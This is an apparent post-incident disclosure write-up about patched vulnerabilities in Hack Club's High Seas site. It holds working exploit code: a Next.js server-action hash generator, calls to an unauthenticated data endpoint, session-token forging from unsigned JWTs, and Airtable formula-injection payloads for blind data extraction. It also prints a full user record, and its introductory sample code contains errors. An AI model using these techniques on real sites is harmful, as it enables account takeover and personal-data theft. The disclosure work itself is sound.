

## Overview

```
Mon Day CST
Jan 1   14:42: @Toshit informed a member of the High Seas team of a vulnerability privately.
Jan 1   16:31: All Vercel deployments are locked.
Jan 1   17:11: The first vulnerability is patched and the site is reopened.
Jan 1   20:06: @FoxMoss informed a member of the High Seas team of a new vulnerability, the website is locked immediately.
Jan 2   17:23: Both @Toshit and @FoxMoss are asked to write a writeup for public release.
Jan 2   17:33: @Toshit submits their section of the writeup.
Jan 2   18:01: High Seas comes back online.
Jan 2   20:10: @FoxMoss submits their section of the writeup.
Jan 27  16:02: A first draft of the combined writeup is made.
Jan 31  20:12: Writeup is completed.
```


*TL;DR: The issue was due to how Next.js's server actions are defined, wherein a privileged server function was able to be arbitrarily invoked, returning a small amount of user data; full name, email, and *

What Next calls *Server Actions* are actually a React 19 feature called [*Server Functions*](https://react.dev/reference/rsc/server-functions#importing-server-functions-from-client-components).
When you mark a function with the `"use server"` directive, it allows execution of the function from the frontend. This abstracts away setting up an API route in many cases, such as data fetching or form submission.

Consider the following example. It uses a server function, `getUsers` to fetch usernames and avatars. This subset of user data is safe to display on the frontend. In its current state, this code is secure.

```javascript
// utils.js
"use server"

async function rawUsers(offset) {
	// sql`` ensures safe interpolation.
	return await sql`SELECT * FROM user LIMIT 10 OFFSET ${OFFSET}`;
}

export async function getUsers() {
	const users = await rawUsers(0)
	
	return users.map((user) => ({
		title: user.username,
		avatarUrl: user.avatar
	}))
}
```

```jsx
// Users.jsx
"use client"

import { useEffect, useState } from "react"
import { getPosts }

export function Users({}) {
	const [users, setUsers] = useState(null)

	useEffect(() => {
		setUsers(await getUsers())
	}, [])

	if (!users) return <p>Loading users...</p>

	return (<div className="flex flex-col">
		{users.map((user) => (
			<div>
				<p>{user.username}</p>
				
			</div>
		))}
	</div>)
}
```

As it says in [the docs](https://nextjs.org/docs/app/building-your-application/data-fetching/server-actions-and-mutations#client-components),
> To call a Server Action in a Client Component, create a new file and add the `"use server"` directive at the top of it. All exported functions within the file will be marked as Server Actions that can be reused in both Client and Server Components.

So to use our `getUsers` function in a client component, we need to mark the entire server module as `"use server"`. All **exported** functions will be available on the frontend. This is where the vulnerability lies.

When another developer comes along and wants to use `rawUsers`, they might prepend the `export` keyword to the `async function rawUsers(offset) {` line, then `import` it into one of their modules to use it elsewhere. Normally, this is the correct thing to do. Here, it's created a vulnerability. Now, anyone can call `rawUsers` via a HTTP request and get read access to *ALL* columns on `user`.

[This is a known footgun.](https://www.youtube.com/watch?v=yUm-ET8w_28)

## @Toshit's Vulnerability
[@Toshit's website](https://www.r58playz.dev/)

I originally figured out how to call any nextjs server action while working on my [High Seas wonderdome client](https://github.com/r58Playz/highseas-wonderdome).
I was trying to figure out how to get doubloon stats like cursed/blessed status and remaining votes, which were provided by [the `safePerson` function](https://github.com/hackclub/high-seas/blob/04eb2fad9d22cc04b1606604a637204ab9c5fcef/src/app/utils/airtable.ts#L168) which is only exposed as a server action called in the frontend.

My [original approach](https://github.com/r58Playz/highseas-wonderdome/blob/279aed31933ebade4557f479d0aa24c1e82d3894/src/api.ts#L90-L111) was to "replay" the request the frontend made. Nextjs server actions are called with a POST request with the body being the arguments to the function. They use the `Next-Action` header to specify which function to call, and the header value is always some sort of hash that gets calculated at build time. It returns data in the React Server Component format. So, I copied the necessary headers and body to my code as a quick way to emulate what the High Seas frontend was doing to call the `safePerson` function. However, I thought this was fragile and wanted to get rid of this hardcoded hash that could change at any time in a future deployment, so I began digging into the Nextjs code.

Nextjs uses swc to parse and transform app code. This code is written in Rust and compiled before being distributed on npm as a dependency of nextjs in the package `@next/swc`. The code for generating an action ID on the server in the version of nextjs High Seas uses is [here](https://github.com/vercel/next.js/blob/v14.2.13/packages/next-swc/crates/next-custom-transforms/src/transforms/server_actions.rs#L1255-L1266).

This code takes a hash salt, the full path to the file containing the server action, and the function name of the server action. These values are SHA1 hashed in the format `{salt}{file}:{name}` and the hash is hex encoded. At first glance, it looks impossible to generate hashes outside of the nextjs build process due to the hash salt. However, this salt is **always empty** in the version of nextjs that High Seas uses for [backwards compatibility reasons](https://github.com/vercel/next.js/pull/69183) (it's also always empty in the canary build of nextjs at the time of writing this). As a result, if you know the path of the file the function you are create a hash for is in, you can create a hash. I also had the safePerson hash to test my hash generator against, making this reverse engineering process a lot easier. I knew that High Seas was hosted on the Vercel edge from all the Vercel errors I was getting in my wonderdome client, so all I had to do was figure out where Vercel's build system cloned GitHub projects, which was as simple as prepending a `pwd` to the build function. This directory happened to be `/vercel/path0/`, so the hash input for the `safePerson` function would be `/vercel/path0/src/app/utils/airtable.ts:safePerson`. The hash of this matches up with the hash that I hardcoded: `d483dc862f183641a65ff7b18ad1b9f1b4e4d49d`.

This is the code I used to call any server action:
```typescript
async function getActionHash(path: string, name: string) {
	const input = `/vercel/path0/${path}:${name}`;
	const hashed = await crypto.subtle.digest("SHA-1", new TextEncoder().encode(input));
	return [...new Uint8Array(hashed)].map(x => x.toString(16).padStart(2, '0')).join('');
}

async function callAction(path: string, name: string, args: any[], actionPath?: string) {
	const res = await fetch(`https://highseas.hackclub.com/${actionPath || ""}`, {
		"headers": {
			"accept": "text/x-component",
			"content-type": "text/plain;charset=UTF-8",
			"next-action": await getActionHash(path, name),
		},
		"body": JSON.stringify(args),
		"method": "POST"
	}).then(r => r.text());
	const components = res.split('\n').map(x => x.substring(x.indexOf(':') + 1));
	return components;
}
```
This code and any further snippets use my project [epoxy-tls](https://github.com/MercuryWorkshop/epoxy-tls/) to bypass CORS while fetching data end-to-end encrypted. `epoxy-tls` is where the `Response` object's `rawHeaders` property comes from later on.

While looking at the source of `safePerson`, I noticed that it calls `getSelfPerson` with the slack id from the current login token to get all of the person's data. [This function](https://github.com/hackclub/high-seas/blob/04eb2fad9d22cc04b1606604a637204ab9c5fcef/src/app/utils/airtable.ts#L6-L30) **did not have any authentication checks** and was exported, meaning it would automatically be turned into a server action by Nextjs due to the `'use server'` at the top of the file. Essentially, there was an unused API endpoint with **no authentication** that returned any slack id's data. This is the first vulnerability I found, and it was very easy to exploit due to the server action hash generator I had just made.

This is the original code I used to exploit the first vulnerability:
```typescript
async function selfPerson(id: string) {
	const ret = await callAction("src/app/utils/airtable.ts", "getSelfPerson", [id]);
	return JSON.parse(`{"id":"` + (ret)[ret.length - 2].split(`{"id":"`)[1]);
}
```

After finding this vulnerability, I wanted to see if the authentication functions also had something similar. The [`createSlackSession` function](https://github.com/hackclub/high-seas/blob/04eb2fad9d22cc04b1606604a637204ab9c5fcef/src/app/utils/auth.ts#L121-L189) was my main target, as at first glance it did not look like it verified anything because it was only used by the [slack login endpoint](https://github.com/hackclub/high-seas/blob/04eb2fad9d22cc04b1606604a637204ab9c5fcef/src/app/api/slack_redirect/route.ts). It calls `parseJwt` which **does not verify that the JWT passed in is properly signed**. `parseJwt` only extracts the JWT payload and returns it, and the rest of the `createSlackSession` code does not verify that the parsed JWT payload is valid either. As a result, I was able to create tokens for any slack ID as long as I was able to generate a JWT that looked valid enough. I used one of the many JWT libraries for JS to encode my custom payload that only had the target slack ID and the email. I was able to generate tokens at will with the `createSlackSession` function, and they were returned in the `Set-Cookie` header as the `hs-session` cookie as the code assumed it was being called in the slack login endpoint.

This is the original code I used to exploit the second vulnerability:
```typescript
async function generateToken(id: string) {
	const params = (action: string, args: any[]) => {
		return {
			"headers": {
				"accept": "text/x-component",
				"content-type": "text/plain;charset=UTF-8",
				"next-action": action
			},
			"body": JSON.stringify(args),
			"method": "POST"
		}
	};
	const encode = (input: string) => {
		let unencoded = new TextEncoder().encode(input)
		const CHUNK_SIZE = 0x8000
		const arr = []
		for (let i = 0; i < unencoded.length; i += CHUNK_SIZE) {
			// @ts-expect-error
			arr.push(String.fromCharCode.apply(null, unencoded.subarray(i, i + CHUNK_SIZE)))
		}
		return btoa(arr.join('')).replace(/=/g, '').replace(/\+/g, '-').replace(/\//g, '_')
	}

	// src/app/utils/airtable.ts : getSelfPerson
	const personRes = await fetch("https://highseas.hackclub.com/", params("fdfebd3d5565f8459d07200b9c50d7d6ab4dec39", [id])).then(r => r.text());
	const person = JSON.parse(`{"id":"` + personRes.split("\n").map(x => x.substring(x.indexOf(":") + 1))[1].split(`{"id":"`)[1]);
	const jwt = `.${encode(JSON.stringify({ sub: id, person: person.fields.email, }))}.`;
	// src/app/utils/auth.ts : createSlackSession
	const sessionRes = await fetch("https://highseas.hackclub.com/", params("f0e8ca9e5e71bfe94ec69fa168a7b6973d66134b", [jwt]));

	// @ts-expect-error
	return decodeURIComponent(sessionRes.rawHeaders["set-cookie"].split(";")[0].split("=")[1])
}
```

I then shared this code with @FoxMoss who continued on and created the lookup injection.

## FoxMoss's Vulnerability 
[@FoxMoss's website](https://foxmoss.com/)

I was made aware that there was issues with the High Seas code in the afternoon of January 1st. Not many replication details, I did however get the code to request arbitrary NextJs actions that @Toshit had wrote. So after their vulnerability was patched I started to comb through the code base. First thing I noticed was unescaped requests to this tool called [Airtable](https://github.com/hackclub/high-seas/blob/a73b9a864c36c3831142efa7967e582e3777e5b6/src/app/utils/airtable.ts#L17) for grabbing user data. I had never heard of Airtable especially for databases, and thats for good reason. **Airtable is not a database**, it's a fancy spreadsheet for business automation. Airtable did expose an API for requests, but it has [no standard way of sanitizing requests](https://community.airtable.com/t5/development-apis/standard-way-to-prevent-formula-injections-when-using-airtable/td-p/121261/page/2). This is bad because Hack Club passes unchecked user data right into into Airtable formulas multiple times.  

Lets breakdown how to do Airtable formula injection to give us arbitrary user data. Taking [this function](https://github.com/hackclub/high-seas/blob/a73b9a864c36c3831142efa7967e582e3777e5b6/src/app/utils/airtable.ts#L76) from the first vulnerability patch, the formula template is as follows (If we ignore the `encodeURIComponent`, which won't be relevant.) `https://middleman.hackclub.com/airtable/v0/appTeNFYcUiYfGcR6/ships?filterByFormula={autonumber}='${num}'` and it returns some surface level data from the autonumber, like the corresponding email, slack id, and user id, normal behavior. But we can easily just make Airtable give us a random entry if we give it something like this.
```sql
{autonumber}='' & {autonumber} & ''
```
Now to let us get specific info like doubloons_balance for a certain user we can just only give autonumber back to Airtable if doubloon_balance and the slack_id matches a specific criteria.
```sql
{autonumber}='' & IF(AND({doubloon_balance} > 100, {slack_id}='U07UY7CPZ53'), {autonumber}, 0) & ''
```
If the stated slack id is indeed above 100 it returns the data, if not it returns an error. Now if I wanted the exact number I could check every number, or I could apply a simple [binary search](https://en.wikipedia.org/wiki/Binary_search), If I start with some realistic bounds say 0-10000 I can chop the search area in half until I converge on a whole number. 

Numbers are fine, but if we need actually exploitable data we need to be able to crack strings as well, first we can crack the string length using the `LEN()` Airtable function. Then we iterate each character with some simple string manipulation.
```sql
RIGHT(LEFT({fullname}, ${char_index} + 1), 1)
```
After that we can apply the same binary search, approach this time with ASCII values and a little regex.
```sql
{autonumber}='' & IF(AND(REGEX_MATCH(RIGHT(LEFT({${target}}, ${index} + 1), 1), '[!-o]') = TRUE(), {slack_id}='U07UY7CPZ53'), {autonumber}, 0) & ''
``` 

If we want to login to an account, some users have an auto generated magic_auth_token in their row which magically gives any perpetrator with your magic token an easy way to login to your account via `https://highseas.hackclub.com/shipyard/?magic_auth_token=...` . This vulnerability could also be used in the same way @r58 did, by grabbing the email and creating a jwt, but I stopped here. So I wrote that up as a program added some sick ass loading bars and sent that off to the High Sea's team. Here's a recording of this while the bugs were still vulnerable.



They implemented a preliminary fix, but since the injection was source formula agnostic I was able to expose and help patch a couple other places where Airtable could be used to extract information.


---

So, what actually happened? TL;DR, nothing. We checked our logs and no data was stolen.

The person records contained these fields at the time the vuln was fixed (this is my real `Person` record):

```
{
  identifier: "b_en_d_2005",
  ships: [
    "recmLrezpPCPfjO8G", "recHRXQc38TAs5yHZ", "rectfb990YVxy6urc",
    "rec3owEHeVParhGjW", "recQpF5QN5Nspgzja", "rec9NtPdxbhl5xqdy",
    "recSWVXmNgjsm23Wf", "rec1f69CDE4Hvp1tn", "recTylct4Va2Ztj86",
    "rec3gve9DyrlnWZqD", "rec3265DhvzbDpDif", "recXeeJFYxAAKlg63",
    "recc9NxnEKbd7GkyE", "rec65wdwhJsB0TTDR", "recr9ZU76Ee9nBpcZ",
    "rec2S0UkjyPjcG6k0", "recsR9NnlWkiT9BEz", "recbTAUwRTdzeAKG1",
    "recMgIFj7Vs9OPg9e", "recK9WCAAbt34XkeZ", "rec8IxLhQSEgAvqPt",
    "recHxzMvnl66dDy0J", "recxbJHAnYSTG7ZiF", "recS5U4rhWvMYdH4Z",
    "recPa2aRcVN5ra0RG", "recNTgQWQK5B9OIX1", "recLpZqvqvYYPfBXO",
    "recrVgPhsvHPzCok6", "recUt8a7KUwRMXYRn", "rec8RHcjAXNWFCC0R",
    "reckDUD39FYnVvmpD", "recESG52mL96YseZD", "recevgGBhXwuoHGSR",
    "recHlKOv0tVPczopm", "rec83EU35Y85bZK1i", "recfJxbjVtHUN99jF",
    "reccNp5ho720Eq6MK", "recZ9SALngkTpd4WM", "recoBsJX3FxfppBcv",
    "recyCSyCmiakvugVU", "recJlqLAg0f9ueABn", "recOnaXOepV6LJA0c",
    "recAufwu8dbeQtdBg", "recuxj2mC1Sz3CTB0", "recutRTI5uVXS3XCJ",
    "recNEUFC9fIGGRVjI", "reczlLVR1urHKrNLj", "recVxW1T89EQW1qhF",
    "recbRBlonp95ndqYF", "recKtqeaYMTfcgyq0"
  ],
  slack_id: "U03DFNYGPCN",
  first_name: [ "B" ],
  last_name: [ "en D" ],
  autonumber: 2005,
  email: "malted@malted.dev",
  full_name: "B en D",
  battles: [
    "recAIFuzybUFeomdZ", "recnzD9WoBAdbtmqB", "rec4FLz8TnLBSLe5K",
    "recUECAnjct2uo3M1", "recgTmcwmXNszON9y", "recrVaSry7BXleQIT",
    "rec4prbbrkTCiEaMO", "recxbmkMybpj9xoeU", "recVkvYxVuDVbUrbH",
    "rec8iUO3mbu5MP5Mr", "recnwPVd3kyZ6XXDE", "recbO2fXnpHUUY3x4",
    "recyoteDNFEy73Sqi", "recKqK8N4vFvNAuqe", "rec6ecsTuK7PTLJV4",
    "recSZPXy3vYNgAEX9", "rec4aKH4HV2AH4t4k", "rec7XaBsixE5ayIsV",
    "recSg8EnMBeHb3RKK", "recPc3ABjj7op7fiE", "recR2NrK9iNMiNVlp",
    "rec2QcE1zKQ37Ejle", "rec5olDy2rvvTBbqS", "recQoZeiq8kIPiVcs",
    "recpFsuxA9K7gL6jc", "reccN2VnfZ7ziRvzC", "recJ3BgClbO6Ewnzc"
  ],
  orders: [ "rec6DYYnsPb6NwcXw" ],
  settled_tickets: 69,
  shop_true: true,
  academy_completed: true,
  user_has_graduated: true,
  preexisting_user: true,
  address: [ "recCkFOWIivwt4I4R" ],
  doubloons_paid: 69,
  doubloons_spent: 0,
  doubloons_balance: 69,
  doubloons_granted: 0,
  created_at: "2024-10-02T16:38:18.000Z",
  vote_balance: -11,
  shipped_ship_count: 2,
  vote_count: 13,
  ships_awaiting_vote_requirement_count: 0,
  ships_with_vote_requirement_met_count: 2,
  votes_expended: 24,
  minimum_pending_vote_requirement: 0,
  vote_balance_minus_minimum_pending_requirement: -11,
  "YSWS Verification User": [ "recjr2NnxJ2bkeK8L" ],
  verification_status: [ "Eligible L1" ],
  votes_remaining_for_next_pending_ship: 11,
  votes_required_for_all_pending_ships: 0,
  votes_remaining_for_all_pending_ships: 11,
  unique_vote_count: 27,
  duplicate_vote_count: -14,
  unique_vote_explanation_count: 27,
  duplicate_vote_explanation_count: 0,
  battles__uniqueness_enforcement_string: [
    "U03DFNYGPCN-1824-1849", "U03DFNYGPCN-1811-1857",
    "U03DFNYGPCN-1811-1831", "U03DFNYGPCN-1852-1863",
    "U03DFNYGPCN-1834-1858", "U03DFNYGPCN-1844-1850",
    "U03DFNYGPCN-1870-1899", "U03DFNYGPCN-1980-2026",
    "U03DFNYGPCN-1827-2126", "U03DFNYGPCN-2087-2100",
    "U03DFNYGPCN-1801-2131", "U03DFNYGPCN-1848-2159",
    "U03DFNYGPCN-1916-2148", "U03DFNYGPCN-1916-2380",
    "U03DFNYGPCN-1989-2484", "U03DFNYGPCN-1791-2020",
    "U03DFNYGPCN-2083-2490", "U03DFNYGPCN-2322-2423",
    "U03DFNYGPCN-1881-2080", "U03DFNYGPCN-1880-2139",
    "U03DFNYGPCN-1792-2052", "U03DFNYGPCN-1833-1962",
    "U03DFNYGPCN-1971-2498", "U03DFNYGPCN-5027-6104",
    "U03DFNYGPCN-2364-6146", "U03DFNYGPCN-4795-6149",
    "U03DFNYGPCN-6874-8701"
  ],
  agggregated_battle_explanations: "recBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUtest test test test test test test test test test test test testrecBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUa a a a a a a a a a a a a a a a a a a a arecBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUI love guessing games! This reminds me of Wordle. I like the simple design too! The gradient adds to it.recBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUs s s s s. s s. s s. s srecBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUWoah, this is an awesome project. I love using HCB. This is a technically impressive project!recBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUThis is a super cool project! I think it will be very useful in the real world.recBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUI'm only voting for this project because the other one was abandoned.recBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUI love the huge selection of games on the site! It's great.recBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUI love this game! It seems really fun! I loved playing itrecBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUI'm voting for this project because I couldn't access the other one due to a signin screenrecBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUI love this so much!! It's such a creative websiterecBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUCool blog! it's super snappy and I love the webringrecBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUThe Nurikabe puzzle solver is a more logically impressive project - while the other is cool, it just connects APIs, while the Nurikabe puzzle solver is solving a cooler problem I think.recBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUThis is such a fun project to browse! I absolutely love how it's laid out. I was presented with examples of the question at hand in a very digestible way, plus it didn't feel biased (it wasn't just a yes or a no answer). The other project has no clear CTA or steps, just a GitHub repo you are supposedly meant to trawl through.recBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUWhile the other project seems cool, I don't know how to use it since I don't know what a Lewis structure is (I assume it's a chemistry thing). The project I'm voting for is an okay-looking blog, (where one of the posts is referring to the Replit GQL schema I put online I think :))recBOPNwqrd8TIFPUrecBOPNwqrd8TIFPUtest vote test vote test vote test vote test vote test vote recBOPNwqrd8TIFPU",
  record_id: "recBOPNwqrd8TIFPU",
  aggregated_battle_explanations_length: 3633,
  battles__explanation: [
    "test test test test test test test test test test test test test",
    "a a a a a a a a a a a a a a a a a a a a a",
    "I love guessing games! This reminds me of Wordle. I like the simple design too! The gradient adds to it.",
    "s s s s s. s s. s s. s s", "Woah, this is an awesome project. I love using HCB. This is a technically impressive project!",
    "This is a super cool project! I think it will be very useful in the real world.",
    "I'm only voting for this project because the other one was abandoned.",
    "I love the huge selection of games on the site! It's great.",
    "I love this game! It seems really fun! I loved playing it",
    "I'm voting for this project because I couldn't access the other one due to a signin screen",
    "I love this so much!! It's such a creative website",
    "Cool blog! it's super snappy and I love the webring",
    "The Nurikabe puzzle solver is a more logically impressive project - while the other is cool, it just connects APIs, while the Nurikabe puzzle solver is solving a cooler problem I think.",
    "This is such a fun project to browse! I absolutely love how it's laid out. I was presented with examples of the question at hand in a very digestible way, plus it didn't feel biased (it wasn't just a yes or a no answer). The other project has no clear CTA or steps, just a GitHub repo you are supposedly meant to trawl through.",
    "While the other project seems cool, I don't know how to use it since I don't know what a Lewis structure is (I assume it's a chemistry thing). The project I'm voting for is an okay-looking blog, (where one of the posts is referring to the Replit GQL schema I put online I think :))",
    "test vote test vote test vote test vote test vote test vote "
  ],
  aggregate_discordance: 0.1179447524304271,
  voting_trust_factor_sans_clickthrough: 0.87573822502845,
  mean_discordance: 0.13936768142035244,
  eligible_to_vote: true,
  verification_alum: [ null ],
  waka_last_synced_from_db: "2025-01-27T20:30:48.407Z",
  waka_last_heartbeat: "2025-01-25T20:48:53.357Z",
  waka_known_machine_count: 2,
  waka_known_machines: "[\n  \"device.com\"\n]",
  waka_30_day_active_machine_count: 1,
  waka_30_day_active_machines: "[\n  \"device.com\"\n]",
  waka_known_installation_count: 3,
  waka_known_installations: "[\n  \"Macos|Darwin|device.com\",\n  \"Vscode|Darwin|\",\n  \"Vscode|Darwin|device.com\"\n]",
  waka_30_day_active_installation_count: 1,
  waka_30_day_active_installations: "[\n  \"Vscode|Darwin|device.com\"\n]",
  waka_first_heartbeat: "2024-10-29T16:07:53.759Z",
  zapier_loops_marked_signed_up_at: "2024-10-23",
  zapier_loops_marked_wakatime_installed_at: "2024-10-23",
  waka_total_hours_logged: 18.16,
  waka_30_day_hours_logged: 6.47,
  magic_auth_link: "https://highseas.hackclub.com",
  all_battle_ship_autonumbers: [
    "1849", "1824", "1811", "1857", "1811", "1831", "1863", "1852", "1834", "1858", "1850", "1844", "1870",
    "1899", "2026", "1980", "1827", "2126", "2087", "2100", "1801", "2131", "1848", "2159", "1916", "2148",
    "2380", "1916", "2484", "1989", "2020", "1791", "2083", "2490", "2322", "2423", "2080", "1881", "1880",
    "2139", "1792", "2052", "1962", "1833", "1971", "2498", "6104", "5027", "2364", "6146", "6149", "4795",
    "8701", "6874"
  ],
  all_battle_ship_autonumbers_unique: [
    "1849", "1824", "1811", "1857", "1831", "1863", "1852", "1834", "1858", "1850", "1844", "1870", "1899",
    "2026", "1980", "1827", "2126", "2087", "2100", "1801", "2131", "1848", "2159", "1916", "2148", "2380",
    "2484", "1989", "2020", "1791", "2083", "2490", "2322", "2423", "2080", "1881", "1880", "2139", "1792",
    "2052", "1962", "1833", "1971", "2498", "6104", "5027", "2364", "6146", "6149", "4795", "8701", "6874"
  ],
  all_battle_ship_autonumber_strings: [
    "18241849", "18111857", "18111831", "18521863", "18341858", "18441850", "18701899", "19802026",
    "18272126", "20872100", "18012131", "18482159", "19162148", "19162380", "19892484", "17912020",
    "20832490", "23222423", "18812080", "18802139", "17922052", "18331962", "19712498", "50276104",
    "23646146", "47956149", "68748701"
  ],
  orders__items: [ "item_free_stickers_41" ],
  magic_auth_message: "Welcome to the Hack Club Slack, a vibrant community hosting thousands of teenagers, regular online events, and tons of other Hack Club programs in addition to High Seas!\n\nNow it's time for Step 2, where you'll learn how High Seas works (and get free stickers):\n\n     ~1. Join Slack~\n     *2. Do the Tutorial* _← you are here_\n     3. Install Hackatime\n\n*<https://highseas.hackclub.com|👉 Click here to start the High Seas tutorial! 👈>*",
  orders_awaiting_mailout: [],
  orders__item_name: [ "Free Stickers" ],
  verified_eligible: true,
  all_order_items: [ "item_free_stickers_41" ],
  stage: "payout_received",
  staged_ships_count: 1,
  hakatime_installed: true,
  hakatime_has_coded: true,
  last_activity_time: "2024-12-20T20:29:22.000Z",
  tutorial_ship_count: 3,
  hours_since_last_activity: 912,
  days_since_last_activity: 38,
  mean_rating_difference: 69.58333333333333,
  mean_absolute_rating_difference: 170.41666666666666,
  accordance_coefficient: 0.4083129584352078,
  consensus_violation_coefficient: 0.25,
  paid_out_ship_count: 2,
  order_count_no_free_stickers: 0,
  mean_vote_time: 102.36363636363636,
  all_orders_string: "item_free_stickers_41",
  sniffable_vote_count: 11,
  average_ship_rating: 1075.5,
  duplicate_vote_explanation_percentage: 0,
  total_vote_count: 27,
  country: [ "🇺🇸 United States of America" ],
  contest: [ "rec3mojf205woc8Dp" ],
  verification_updated_at: "2024-10-27T03:41:59.000Z",
  duplicate_vote_explanation_count_prior_week: 0,
  mean_consensus_disagreement: 50.416666666666664,
  consensus_disagreement_coefficient: 0.6896100599019119,
  time_trust_factor: 0.9632295962245,
  consensus_violation_trust_factor: 0.9375,
  total_ships: 50,
  vote_count_prior_week: 0,
  duplicate_explanation_trust_factor: 1,
  accordance_coefficient_trust_factor: 0.6389937076647999,
  vote_quality_multiplier: 1,
  aggregated_rating_differences: "-331\n47\n117\n147\n-83\n-158\n-125\n15\n-37\n-25\n-22\n-85\n25\n179\n-86\n-39\n93\n374\n33\n465\n168\n57\n-427\n-139\n70\n1\n70",
  last_step_completed: true,
  total_real_money_we_spent: 0,
  referral_link: "https://ahoy.hack.club/2005",
  impersonation_link: {
    label: "go undercover!",
    url: "http://localhost:3000/api/admin/impersonate/U03DFNYGPCN",
  },
  dollars_paid: 16.428571428571427,
  contest__doubloons_per_dollar: [ 4.2 ],
  contest__all_slack_ids: [ "high_seas" ],
  referral_credit_count: 0,
  amount_earned_vs_fulfillment_cost: 16.428571428571427,
  auto_num: 201,
  telemetry_vote_count: 1,
  "Fraud - Wonderdome Reports": [ "recjqmpQaY6YQK7Ra", "rec6yIb0mRbIwd6tT" ],
  count_battles_exact_mention: 0,
  battles_exact_mention_percentage: 0,
  slack_profile_url: "https://hackclub.slack.com/team/U03DFNYGPCN",
  all_project_repo_urls: "https://github.com/hackclub/shadergraph \nhttps://github.com/hackclub/high-seas \nhttps://github.com/malted/cnn-thing ",
  all_project_demo_urls: "https://shadergraph.hackclub.dev \nhttps://highseas.hackclub.com \nhttps://highseas.hackclub.com ",
  average_doubloons_per_hour: 13.82842509603073,
  daily_hours_logged: 0.15498645741345488,
  days_since_first_heartbeat: 89.29166666666667,
  total_hours_shipped: 4.989722222222222,
  daily_hours_shipped: 0.04258476710899856,
  days_between_first_and_last_heartbeats: 88.19444444444444,
  first_heartbeat_modified_at: "2024-11-26T03:32:48.000Z",
  days_since_joining: 117.17152777777778,
  voting_trust_factor: 0.87573822502845,
  orders__item_name_list: "* Free Stickers",
  dollars_fulfilled: 2.6187873699999997,
  show_in_leaderboard: true,
  doubloons_received: 69,
  "didn't_complete_tutorial_bc_of_bug": 0,
  stuck_in_tutorial_generally: 0,
}
```

Notably, address data was not available, as it is stored separately. @Toshit said:
> Address data was not directly exposed through getSelfPerson, I was getting values with random letters and numbers

The only data that was accessed using the methods above was Toshit and FoxMoss accessing their own records, along with some team members' records for testing.
Although account takeovers could have happened, we checked our logs and no accounts were logged in this way.

The next event we run will have a much stronger focus on security (and won't use Next.js!) ~

